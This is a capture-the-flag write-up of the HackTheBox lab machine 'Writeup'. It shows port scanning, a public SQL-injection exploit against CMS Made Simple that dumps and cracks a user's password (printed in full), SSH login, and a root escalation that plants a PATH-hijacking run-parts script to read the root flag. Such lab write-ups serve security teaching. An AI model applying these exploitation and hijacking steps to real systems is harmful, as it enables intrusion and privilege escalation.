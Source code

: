 Title:HTB: Writeup
Date: 10-12-2019 21:52
category:security
tags:security, boot2root, HTB
meta:security, boot2root, HTB

<img class="align-left" src="/media/2019.10/writeup_card.png" alt="Writeup Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Writeup](https://www.hackthebox.eu/home/machines/profile/192).
(*Yes the machine name is writeup, searching a writeup for writeup will be a
funny thing.*).
The machine is classed as an easy one. It involves vulnerability in a known CMS
as well as "PATH vulnerability" for the privilege escalation.

<!-- PELICAN_END_SUMMARY -->

[TOC]

# Recon

First of all we start by scanning the machine's open ports with nmap. Only port
22 (SSH) and 80 (HTTP) are open:

    :::text
    # Nmap 7.80 scan initiated Sun Sep 22 16:08:28 2019 as: nmap -oA nmap -sSV 10.10.10.138
    Nmap scan report for 10.10.10.138
    Host is up (0.089s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Sep 22 16:08:43 2019 -- 1 IP address (1 host up) scanned in 15.20 seconds

# Web, getting user

The homepage of this website is ugly and say that there is nothing there yet.
We take a look to `robots.txt`:

    :::text
    #              __
    #      _(\    |@@|
    #     (__/\__ \--/ __
    #        \___|----|  |   __
    #            \ }{ /\ )_ / _\
    #            /\__/\ \__O (__
    #           (--/\--)    \__/
    #           _)(  )(_
    #          `---''---`

    # Disallow access to the blog until content is finished.
    User-agent: * 
    Disallow: /writeup/

Let's take a look at `/writeup/`! We have there another website. When looking at
the page source code we notice the use of "CMS Made Simple" a CMS with a few
vulnerabilities.

    :::html
    <!doctype html>
    <html lang="en_US"><head>
      <title>Home - writeup</title>

    <base href="http://10.10.10.138/writeup/" />
    <meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />

Let's search for exploits, a few of them are available:

:::text
    # searchsploit 'made simple'
    -------------------------------------------------------------------------------------- ----------------------------------
     Exploit Title                                                                        |  Path
                                                                                          | (/usr/share/exploitdb/)
    -------------------------------------------------------------------------------------- ----------------------------------
    CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)    | exploits/php/remote/46627.rb
    CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                               | exploits/php/webapps/26217.html
    CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                               | exploits/php/webapps/26298.txt
    CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                            | exploits/php/webapps/29272.txt
    CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                | exploits/php/webapps/29941.txt
    CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities               | exploits/php/webapps/32668.txt
    CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                     | exploits/php/webapps/43889.txt
    CMS Made Simple 1.2 - Remote Code Execution                                           | exploits/php/webapps/4442.txt
    CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                  | exploits/php/webapps/4810.txt
    CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                      | exploits/php/webapps/5600.php
    CMS Made Simple 1.4.1 - Local File Inclusion                                          | exploits/php/webapps/7285.txt
    CMS Made Simple 1.6.2 - Local File Disclosure                                         | exploits/php/webapps/9407.txt
    CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                   | exploits/php/webapps/33643.txt
    CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/11424.txt
    CMS Made Simple 1.7 - Cross-Site Request Forgery                                      | exploits/php/webapps/12009.html
    CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                         | exploits/php/webapps/34299.py
    CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery               | exploits/php/webapps/34068.html
    CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/41997.txt
    CMS Made Simple 2.1.6 - Remote Code Execution                                         | exploits/php/webapps/44192.txt
    CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/44976.py
    CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/45793.py
    CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                       | exploits/php/webapps/39760.txt
    CMS Made Simple < 2.2.10 - SQL Injection                                              | exploits/php/webapps/46635.py
    CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                      | exploits/php/webapps/34300.py
    CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                 | exploits/php/webapps/34298.py
    CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload        | exploits/php/webapps/46546.py
    -------------------------------------------------------------------------------------- ----------------------------------
    Shellcodes: No Result

As we are not authenticated, The one that interest us is "CMS Made Simple <
2.2.10 - SQL Injection (exploits/php/webapps/46635.py). We run the exploit
(admire the beauty of the display). We then get a username, an email, a password
salt and a password hash.

    :::text
    python 46635.py -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7

The exploit also allow to crack the password using a dictionary. We run
"rockyou" against it and found jkr password.

    # python 46635.py --crack -w ./rockyou.txt -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7
    [+] Password cracked: raykayjay9

With this password we are able to connect to the box using SSH and get the user
password:

    # ssh jkr@10.10.10.138
    jkr@10.10.10.138's password: 
    Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Sep 22 12:31:00 2019 from 10.10.14.237
    jkr@writeup:~$ cat user.txt 
    d4e493<redacted>

# Root

We enumerate the box without a lot of success. A quick read of the box forum
recommend to run [pspy](https://github.com/DominicBreuker/pspy) on the box. We
discover that a script is run every time an user connect with SSH.
    2019/09/25 07:39:49 CMD: UID=0    PID=4352   | sshd: [accepted]
    2019/09/25 07:39:49 CMD: UID=0    PID=4353   | sshd: [accepted]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4354   | sshd: jkr [priv]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4355   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
    2019/09/25 07:40:01 CMD: UID=0    PID=4356   | run-parts --lsbsysinit /etc/update-motd.d 

The PATH is fixed by the command line and there is no `run-parts` binary in the
first folder `/usr/local/sbin`. Moreover this folder is writable. Therefore
we write a simple file `/usr/local/sbin/run-parts` and give it the execution
permission:

    jkr@writeup:~$ vim /usr/local/sbin/run-parts
    #!/bin/bash
    cat /root/root.txt > /tmp/lool/b
    rm /tmp/lool/b

    jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts

We create a directory in `/tmp/` and write the `b` file. At the same time be
connect by SSH with the jkr user. We get the root flag

    jkr@writeup:~$ mkdir /tmp/lool/
    jkr@writeup:~$ echo a > /tmp/lool/b
    jkr@writeup:~$ tail -f /tmp/lool/b
    a
    tail: /tmp/lool/b: file truncated
    eeba4<redacted>

# Wrapping up

The user step implied only to use a know exploit without any change. The
privilege escalation was really interesting as I didn't use
[pspy](https://github.com/DominicBreuker/pspy) before.

